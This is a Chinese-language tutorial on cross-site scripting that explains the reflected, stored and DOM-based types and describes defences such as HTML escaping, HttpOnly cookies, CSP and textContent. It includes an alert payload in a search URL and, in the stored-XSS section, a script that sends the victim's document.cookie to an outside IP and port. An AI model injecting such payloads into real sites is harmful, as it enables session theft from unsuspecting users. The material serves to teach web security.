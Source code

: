 ```yaml
---
meta:
  - name: description
    content: 前端跨站脚本攻击
  - name: keywords
    content: 前端跨站脚本攻击,XSS,前端,攻击,
---
```

# 跨站脚本攻击

## 1. 介绍

> “XSS是跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。”

xss攻击的核心方式是脚本。这些脚本通常是javascript脚本，从这个层面来说javascript能做的事情，xss攻击一般都能做到。比如：

+ 通过 document.cookie 盗取 cookie中的信息

+ 使用 js或 css破坏页面正常的结构与样式

+ 流量劫持（通过访问某段具有 window.location.href 定位到其他页面）

+ dos攻击：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。并且通过携带过程的 cookie信息可以使服务端返回400开头的状态码，从而拒绝合理的请求服务。

+ 利用 iframe、frame、XMLHttpRequest或上述 Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，并且攻击者还可以利用 iframe，frame进一步的进行 CSRF 攻击。

+ 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力

## 2. 分类

### 2.1 反射型xss

`反射型xss`又被称为`非持久型xss`。当用户访问一个带有xss攻击代码的url请求的时候，向服务器发送请求，服务器接受请求后处理，并把客户端发送的xss攻击代码返回给客户端，客户端解析这段代码的时候，就有可能遭受xss攻击

用户浏览某个网站A，攻击者在这个网站中嵌入了恶意的脚本用于盗取用户的cookie等信息 攻击者诱导用户触发xss攻击（比如诱导用户点击非法链接），当用户触发了xss攻击的时候就会将自己的用户信息发送给攻击者 攻击者在获取用户的cookie后，就有可能盗用用户的身份信息进行非法操作

`http://xxx/search?keyword="><script>alert('XSS');</script>`

#### 反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等

数据流向： 浏览器 -> 后端 -> 浏览器

### 2.2 存储型xss

`存储型xss`又被称为`持久化的xss`。也是最危险的xss攻击方式。一旦攻击成功，就有可能造成大规模的xss攻击，也就是我们通常所说的xss蠕虫。

存储型xss攻击的一般原理是，客户端将带有xss攻击的数据发送给服务器，服务器接收并存储在数据库。当用户下次再访问这个页面的时候，服务器会读取数据库并将之前的xss代码取出发送给浏览器。浏览器解析这段数据的时候，就会遭受xss攻击。

所以，反射型xss攻击一般需要用户手动触发，而存储型xss攻击却是能够自动触发的。一般来说，反射型xss攻击的危害要比存储型xss攻击的危害要小的多。

```html
 <!-- 比如通过评论输入框将下面代码提交，之后会执行下面代码 -->
<script type="text/javascript">
document.write("<img src='http://192.168.59.129:10086?c=" + escape(document.cookie) + "'>")
</script>
```

#### 存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里

数据流向： 浏览器 -> 后端 -> 数据库 -> 后端 -> 浏览器

### 2.3 DOM型xss

我们可以通过JavaScript来操作dom树，所以，xss攻击也是能够做到这一点的。dom型xss攻击最大的危害就是改变我们网页的布局。这种类型的xss是不需要和服务器进行交互的，只发生在客户端处理阶段。比如一段xss攻击的代码是：

```js
const div = document.createElement('div');
div.innerText = 'xss攻击的代码';
document.body.appendChild(div);
```

#### 反射型xss和dom-xss都需要在url加入js代码才能够触发

数据流向： URL -> 浏览器

### 2.4 对比总结

| 类型 | 反射型 | 存储型 | DOM型 |
| --- | --- | ---| ---|
| 触发过程 | 正常用户访问携带XSS脚本的URL | 1.黑客构造XSS脚本<br />2.正常用户访问携带XSS脚本的页面 | 正常用户访问携带XSS脚本的URL |
| 数据存储 | URL| 数据库 | URL |
| 谁来输出 | 后端WEB应用程序 | 后端WEB应用程序 | 前端JS |
| 输出位置 | HTTP响应中 | HTTP响应中 | 动态构建DOM节点 |

## 3. 防范措施

应对XSS攻击的主要手段还是编码与过滤两种，`编码`用于将特殊的符号 "<、>、&、'、""进行html转义，而`过滤`则是阻止特定的标记、属性、事件

### 3.1 转义html

+ 使用encodeURIComponent对url中的参数进行编码(反射型xss)

+ 服务器接收到数据，在存储到数据库之前，进行转义/过滤

+ 前端接收到服务器传递过来的数据，在展示到页面前，先进行转义/过滤

### 3.2 HTTP-only Cookie

`HTTP-only`禁止JavaScript读取某些敏感Cookie，攻击者完成XSS注入后也无法窃取此Cookie属性：防止脚本冒充用户提交危险操作

如果某一个Cookie 选项被设置成 HttpOnly = true 的话，那此Cookie 只能通过服务器端修改，Js 是操作不了的（无法读写这个cookie）

### 3.3 Content-Security-Policy

在服务端使用HTTP的`Content-Security-Policy`头部来指定策略，或者在前端设置meta标答。例如下面的配置只允许加载同域下的资源

### 3.4 innerText/textContent

+ 在使用 `.innerHTML、.outerHTML、document.write()` 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用 .textContent、.setAttribute() 等

+ 如果用 Vue/React 技术栈，并且不使用 `v-html/dangerouslySetInnerHTML` 功能，就在前端 render 阶段避免 `innerHTML、outerHTML` 的 XSS 隐患

### 3.5 验证码

防止脚本冒充用户提交危险操作

## 4. 参考资料

[什么是XSS攻击，XSS攻击可以分为哪几类？如何防范XSS攻击？](https://github.com/YvetteLau/Step-By-Step/issues/18)

[web安全之xss攻击](https://zhaosaisai.com/blog/2018/web%E5%AE%89%E5%85%A8%E4%B9%8Bxss%E6%94%BB%E5%87%BB.html)
